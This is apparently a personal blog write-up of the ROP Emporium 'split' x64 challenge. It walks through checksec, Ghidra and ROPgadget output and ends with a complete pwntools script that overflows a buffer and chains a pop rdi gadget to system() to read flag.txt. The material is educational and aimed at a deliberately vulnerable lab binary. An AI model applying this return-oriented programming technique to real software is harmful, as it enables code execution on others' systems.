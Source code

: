```yaml
---
title: ROP Emporium - split (x64) - writeup
date: 2023-03-13 22:07:31 +0100
author: farrimwildaxe
categories: [Writeup,ROP Emporium]
tags: [rop,emporium,x64,split,writeup,pwntools]
img_path: /assets/img/ropemporium/split
published: true
---
```



Split is a second challenge from [ROP Emporium](https://ropemporium.com/challenge/split.html) where your goal is to find elements scattered all over the binary and use them to get the flag. So, let’s start our hunting!

First of all, checksec:

```python
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/split]
└─$ [2023-03-14 22:48:20] checksec ./split                                                                                                                                                                                                 
[*] '/home/kali/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So, as in previous binary also here NX bit is set.

Let’s check in Ghidra what’s inside this binary:

![split - using Ghidra to check what's insde the binary](split-main.png)

OK, there’s `pwnme()` function and it looks like a target (same as in first challenge):

![split - using Ghidra to check what's insde the pwnme function](split-pwnme.png)

There’s also `usefulFunction()` hidden, which is using `system()` call:

![split - using Ghidra to check what's insde the usefulFunction function](split-useful.png)

Unfortunately for us, its parameter is `/bin/ls` so we need to find a way to provide proper parameter. After fiddling around we found something in `Labels` - there’s `/bin/cat flag.txt` string hidden, at address `0x00601060`, we can use it in `system()` call. All we need is to chain all that findings.

![split - /bin/cat hidden in labels](split-cat.png)

So, to make this working we need to swap `/bin/ls` into `/bin/cat flag.txt`. Linux (and other Unix and Unix-like operating systems) follows **System V AMD64 ABI** where function arguments (first six) are stored in the following registers: **RDI, RSI, RDX, RCX, R8, R9**. To switch first argument we need to find pop/ret ROP gadget operating on **RDI** register:

```bash
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/split]
└─$ [2023-03-14 22:33:58] ROPgadget --binary ./split --only "pop|ret"                                                                                                                                                                      
Gadgets information
============================================================
0x00000000004007bc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007be : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007c0 : pop r14 ; pop r15 ; ret
0x00000000004007c2 : pop r15 ; ret
0x00000000004007bb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007bf : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400618 : pop rbp ; ret
0x00000000004007c3 : pop rdi ; ret
0x00000000004007c1 : pop rsi ; pop r15 ; ret
0x00000000004007bd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040053e : ret
0x0000000000400542 : ret 0x200a

Unique gadgets found: 12
```

And here it is: `0x00000000004007c3 : pop rdi ; ret` so this is our first element in chain, next is the address of `/bin/cat` string found earlier, and last one would be an address to `system()` call. Putting it all together in pwntools script:

```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("split")

gs = '''
break main
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

io = start()
io.recvuntil(b"> ")

payload  = b"A" * 40 
payload += p64(0x004007c3) # pop rdi; ret
payload += p64(0x00601060) # /bin/cat flag.txt
payload += p64(0x0040074b) # system()

io.sendline(payload)

io.interactive()
```

Let’s check how it’s working:

![split - exploit output](split-output.png)

And voila, flag is ours! 🙂



